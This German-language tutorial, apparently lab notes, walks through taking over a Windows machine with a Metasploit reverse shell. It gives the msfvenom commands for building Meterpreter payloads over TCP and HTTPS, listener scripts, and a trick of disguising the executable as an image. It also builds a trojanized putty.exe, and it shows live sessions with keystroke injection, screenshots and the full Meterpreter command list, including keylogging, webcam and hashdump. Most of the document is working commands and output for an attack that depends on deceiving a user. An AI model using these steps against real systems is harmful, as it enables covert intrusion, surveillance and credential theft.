

Ziel: Kontrolle über das Opfersystem (Windows) erlangen durch eine reverse shell. Der Windows User muss (durch einen Trick) dazu gebracht werden ein Programm zu starten.


# Apache

Auf Kali Dateien über Apache Web Server zum Download bereitstellen

```sh
$ service apache2 start	
```

Test ob Apache Webserver läuft:

```sh
$ netstat -tlpn | grep 80
```


# Windows

- Windows Defender dauerhaft deaktivieren
- Windows Firewall kann aktiv bleiben


# Reverse shell

Erzeugen mit msfvenom eine Programm das eine reverse shell zur Verfügung stellt. Beim Starten baut dieses Programm eine Verbindung mit der angegebenen IP und Portnummer auf.

Port 8080, TCP:

```sh
$ msfvenom -p windows/meterpreter_reverse_tcp LHOST=192.168.178.81 LPORT=8080 -f exe -o mp_tcp_rev_shell_8080.exe
$ cp mp_tcp_rev_shell_8080.exe /var/www/html
```

`http://192.168.178.81/mp_tcp_rev_shell_8080.exe`

Listener unter Metasploit:

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.178.81
set lport 8080
run
```

Mit einem msf Resource Script:

```sh
echo "use exploit/multi/handler\nset payload windows/meterpreter/reverse_tcp\nset lhost 192.168.178.81\nset lport 8080\nrun\n" > msf_macro_tcp_8080.rc
```

```bash
$ msfconsole -r msf_macro.rc
```

Dann `mp_tcp_rev_shell_8080.exe` unter Windows starten. Dabei schlägt SmartScreen an:



Auf trotzdem ausführen klicken.

Unter msf wird eine meterpreter shell gestartet.

Alle Befehle mit `help`:

```
meterpreter > help

Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bg                        Alias for background
    bgkill                    Kills a background meterpreter script
    bglist                    Lists running background scripts
    bgrun                     Executes a meterpreter script as a background thread
    channel                   Displays information or control active channels
    close                     Closes a channel
    detach                    Detach the meterpreter session (for http/https)
    disable_unicode_encoding  Disables encoding of unicode strings
    enable_unicode_encoding   Enables encoding of unicode strings
    exit                      Terminate the meterpreter session
    get_timeouts              Get the current session timeout values
    guid                      Get the session GUID
    help                      Help menu
    info                      Displays information about a Post module
    irb                       Open an interactive Ruby shell on the current session
    load                      Load one or more meterpreter extensions
    machine_id                Get the MSF ID of the machine attached to the session
    migrate                   Migrate the server to another process
    pivot                     Manage pivot listeners
    pry                       Open the Pry debugger on the current session
    quit                      Terminate the meterpreter session
    read                      Reads data from a channel
    resource                  Run the commands stored in a file
    run                       Executes a meterpreter script or Post module
    secure                    (Re)Negotiate TLV packet encryption on the session
    sessions                  Quickly switch to another session
    set_timeouts              Set the current session timeout values
    sleep                     Force Meterpreter to go quiet, then re-establish session.
    ssl_verify                Modify the SSL certificate verification setting
    transport                 Change the current transport mechanism
    use                       Deprecated alias for "load"
    uuid                      Get the UUID for the current session
    write                     Writes data to a channel


Stdapi: File system Commands
============================

    Command       Description
    -------       -----------
    cat           Read the contents of a file to the screen
    cd            Change directory
    checksum      Retrieve the checksum of a file
    cp            Copy source to destination
    del           Delete the specified file
    dir           List files (alias for ls)
    download      Download a file or directory
    edit          Edit a file
    getlwd        Print local working directory
    getwd         Print working directory
    lcd           Change local working directory
    lls           List local files
    lpwd          Print local working directory
    ls            List files
    mkdir         Make directory
    mv            Move source to destination
    pwd           Print working directory
    rm            Delete the specified file
    rmdir         Remove directory
    search        Search for files
    show_mount    List all mount points/logical drives
    upload        Upload a file or directory


Stdapi: Networking Commands
===========================

    Command       Description
    -------       -----------
    arp           Display the host ARP cache
    getproxy      Display the current proxy configuration
    ifconfig      Display interfaces
    ipconfig      Display interfaces
    netstat       Display the network connections
    portfwd       Forward a local port to a remote service
    resolve       Resolve a set of host names on the target
    route         View and modify the routing table


Stdapi: System Commands
=======================

    Command       Description
    -------       -----------
    clearev       Clear the event log
    drop_token    Relinquishes any active impersonation token.
    execute       Execute a command
    getenv        Get one or more environment variable values
    getpid        Get the current process identifier
    getprivs      Attempt to enable all privileges available to the current process
    getsid        Get the SID of the user that the server is running as
    getuid        Get the user that the server is running as
    kill          Terminate a process
    localtime     Displays the target system local date and time
    pgrep         Filter processes by name
    pkill         Terminate processes by name
    ps            List running processes
    reboot        Reboots the remote computer
    reg           Modify and interact with the remote registry
    rev2self      Calls RevertToSelf() on the remote machine
    shell         Drop into a system command shell
    shutdown      Shuts down the remote computer
    steal_token   Attempts to steal an impersonation token from the target process
    suspend       Suspends or resumes a list of processes
    sysinfo       Gets information about the remote system, such as OS


Stdapi: User interface Commands
===============================

    Command        Description
    -------        -----------
    enumdesktops   List all accessible desktops and window stations
    getdesktop     Get the current meterpreter desktop
    idletime       Returns the number of seconds the remote user has been idle
    keyboard_send  Send keystrokes
    keyevent       Send key events
    keyscan_dump   Dump the keystroke buffer
    keyscan_start  Start capturing keystrokes
    keyscan_stop   Stop capturing keystrokes
    mouse          Send mouse events
    screenshare    Watch the remote user desktop in real time
    screenshot     Grab a screenshot of the interactive desktop
    setdesktop     Change the meterpreters current desktop
    uictl          Control some of the user interface components


Stdapi: Webcam Commands
=======================

    Command        Description
    -------        -----------
    record_mic     Record audio from the default microphone for X seconds
    webcam_chat    Start a video chat
    webcam_list    List webcams
    webcam_snap    Take a snapshot from the specified webcam
    webcam_stream  Play a video stream from the specified webcam


Stdapi: Audio Output Commands
=============================

    Command       Description
    -------       -----------
    play          play a waveform audio file (.wav) on the target system


Priv: Elevate Commands
======================

    Command       Description
    -------       -----------
    getsystem     Attempt to elevate your privilege to that of local system.


Priv: Password database Commands
================================

    Command       Description
    -------       -----------
    hashdump      Dumps the contents of the SAM database


Priv: Timestomp Commands
========================

    Command       Description
    -------       -----------
    timestomp     Manipulate file MACE attributes

meterpreter > 

```


## meterpreter_reverse_https

Eine remote shell Verbindung auf Port 8080 mit TCP kann relativ leicht IDS/IPS Systeme und Firewalls erkannt werden (nicht Windows Firewall beim Test).

Alternativ mit Port 443, https, dies tarnt sich als normale sichere Verbindung zu einem Web-Server.

```sh
$ msfvenom -p windows/meterpreter_reverse_https LHOST=192.168.178.81 LPORT=443 -f exe -o mp_http_rev_shell_443.exe
```

`http://192.168.178.81/mp_http_rev_shell_443.exe`

msf Resource Script:

```sh
echo "use exploit/multi/handler\nset payload windows/meterpreter/reverse_https\nset lhost 192.168.178.81\nset lport 443\nrun\n" > msf_macro_https_443.rc
```

```bash
$ msfconsole -r msf_macro.rc
```

Dann `mp_http_rev_shell_443.exe` unter Windows starten.


# Trick

Das exe File als Bilddatei tarnen. Icon der Applikation durch ein Bild ersetzen, so dass es im Explorer wie ein Bild angezeigt wird. Wenn der Benutzer das Bild mit einem Doppelclick öffnen will wird in wirklichkeit die reverse shell gestartet.


# putty Trojaner

Es ist unter Umständen schwierig einen User zum Starten eines Programms zu bewegen um die reverse shell zu starten. Bei einem Trojaner wird die reverse shell in ein dem User bekanntes Programm integriert.

Die Datei `putty.exe` (32 Bit Standalone Version von [www.putty.org](https://www.putty.org)) auf Kali kopieren und in `/var/www/html` kopieren.

Unter Windows im Webbrowser laden.

`http://192.168.178.81/putty.exe`

Falls die folgende Fehlermeldung im Browser kommt:

```
Forbidden
You don't have permission to access this resource.

Apache/2.4.46 (Debian) Server at 192.168.178.81 Port 80
```

Sind die permissions unter Linux nicht gesetzt:

```sh
$ ls -l
-rwx------ 1 root root 2244564 Jun 29 03:52 putty.exe

$ chmod a+r KoboDeluxePortable.zip 

$ ls -l
-rwxr--r-- 1 root root 2244564 Jun 29 03:52 putty.exe
```

`putty.exe` unter Windows starten, ist ein ssh Programm.


## Trojaner erzeugen

Unter Kali: Wrapper mit `msfvenom` erzeugen. Der Wrapper enthält:

- Carrier Application (putty)
- Payload (Malware)

Kali IP: `192.168.178.81`

```sh
$ msfvenom -p windows/meterpreter_reverse_tcp LHOST=192.168.178.81 LPORT=8080 -x putty.exe -k -f exe -o putty2.exe
# -p ... payload
# LHOST/LPORT ... Listener Host/Port
# -x ... carrier application (Tarnung für den Trojaner)
# -k ... zusätzlich zur payload auch die carrier app ausführen
# -f ... output format
# -o ... output path
```

```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
...
```

Dazu muss die Carrier App 32 Bit sein. Eventuell geht aus auch mit 64 Bit. Nicht getestet. `msfvenom --list archs` (x64, x86, x86_64). Einstellen mit `--arch` Option. [[How to check if a binary is 32 or 64 bit on Windows?](https://superuser.com/a/889267)].

Zum Download bereitstellen:

```sh
$ cp putty2.exe /var/www/html 
```

Unter Windows laden:

`http://192.168.178.81/putty2.exe`

Der Download wird zuerst abgelehnt, man muss auf "beibehalten" klicken

Hinweis: Wenn Windows Defender aktiv ist dann wird die Datei sofort nach dem Download entfernt.


## Metasploit Multihandler

```sh
$ msfconsole
msf6 > 
```

```
use exploit/multi/handler
show options
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.178.81
set lport 8080
run
```

oder msf Resource Script:

```sh
echo "use exploit/multi/handler\nset payload windows/meterpreter/reverse_tcp\nset lhost 192.168.178.81\nset lport 8080\nrun\n" > msf_macro_tcp_8080.rc
```

```bash
$ msfconsole -r msf_macro.rc
```

msf meldet die Verbindung:

```
[*] Started reverse TCP handler on 192.168.178.81:8080
```

`putty2.exe` Programm unter Windows starten:


```
[*] https://192.168.178.81:443 handling request from 192.168.178.75; (UUID: xdqf2f0v) Redirecting stageless connection from /4TwWT3e8yHBEwUXAJBpalQC5T87LkXCeDkyDP_vZ592t63cCMV7art with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] https://192.168.178.81:443 handling request from 192.168.178.75; (UUID: xdqf2f0v) Attaching orphaned/stageless session...
[*] Meterpreter session 1 opened (192.168.178.81:443 -> 192.168.178.75:57710) at 2021-06-29 09:21:24 -0400

meterpreter > 

```


# Arbeiten mit meterpreter

**Systeminformation** anzeigen:

```
meterpreter > sysinfo 
Computer        : DESKTOP-KB6QKG7
OS              : Windows 10 (10.0 Build 19043).
Architecture    : x64
System Language : de_DE
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

Text aufs Opfersystem schicken (simuliert **Tastendrücke**) – notepad öffnen:

```
meterpreter > keyboard_send "you have been hacked!"
[*] Done
```

Einen **Screenshot** vom Opfersystem erstellen:

```
meterpreter > screenshot
Screenshot saved to: /root/QMnwJkYX.jpeg
```

Im Browser (Kali) öffnen: `http://localhost:8080/QMnwJkYX.jpeg`

